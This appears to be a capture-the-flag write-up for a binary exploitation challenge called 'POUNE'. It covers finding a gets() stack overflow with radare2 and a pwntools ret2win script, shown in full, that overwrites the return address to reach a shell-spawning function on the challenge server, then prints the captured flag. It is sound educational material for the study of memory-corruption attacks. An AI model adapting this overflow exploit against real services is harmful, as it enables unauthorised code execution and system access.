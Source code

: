 # POUNE

## Description
Solves: 31  Medium

Hello frend!
Can you read flag.txt?

nc challs.ctf.cafe 8888

Author : Zerotistic

## Files
1. Chall - The compiled binary running on the machine

## Analysis
Now the source code isn't provided, so if we take a look the binary using ghydra we can see that the program just take an user entry using gets(), which is unsafe, to a 4 bytes size buff, and makes a return finishing the program. If we take a look tho the functions we can see there's one called "pelase_call_me", which just give us a shell.

The binary is compiled without Adress Space randomization, so we can get the address of this funcion with radare 2:
```bash
$ r2 chall 
[0x00401060]> aa
INFO: Analyze all flags starting with sym. and entry0 (aa)
INFO: Analyze all functions arguments/locals (afva@@@F)
[0x00401060]> afl
0x00401060    1     37 entry0
0x004010a0    4     31 sym.deregister_tm_clones
0x004010d0    4     49 sym.register_tm_clones
0x00401110    3     32 sym.__do_global_dtors_aux
0x00401140    1      6 sym.frame_dummy
0x0040119c    1     13 sym._fini
0x00401090    1      5 loc..annobin_static_reloc.c
0x00401157    1     68 main
0x00401030    1      6 sym.imp.puts
0x00401050    1      6 sym.imp.gets
0x00401000    3     27 sym._init
0x00401146    1     17 sym.please_call_me
0x00401040    1      6 sym.imp.system
[0x00401060]> 
```
We can also use this tool with the visual mode to check the assembly code of the binary.

This is obviously a Ret2Win challenge.


## Exploit
Objetive: We must change the instruction pointer, so instead finishing the program on the return, it will go to the ret2win function (please_call_me)

An easy way to see when we can overwrite the IP is just execute the program increasing the lenght of the entry by one each time until we get a core. We don't have any problem with 11, but if we insert 12 chars we get a core, that's when we are overwriting the IP

Let's write the local exploit, it must look like this one:
```python
from pwn import *

p=process("./chall")

payload = b'A'*12
payload+= p64(0x0040114a)

p.sendline(payload)
p.interactive()
```
¿Why I wrote 0x0040114a (0x00401146 +5) isntead of 0x00401146?
This is becouse to recive the shell they used system(), that uses 2 registers and you must "jump over them" to don't get a core. I have to ask the to the creator of the challenge about it becouse I didn't notice. Thanks Zerotistic :p

If we run the program we get a local shell

To make it remote we just have to change lines 3 and 4 to this:
```python
p=remote("challs.ctf.cafe", 8888)
```

And if we run it...
```bash
$ py exploit.py 
[+] Opening connection to challs.ctf.cafe on port 8888: Done
[*] Switching to interactive mode
$ cat flag.txt
RUSH{D1d_y0u_s33_TH4t_M0m}
$
```
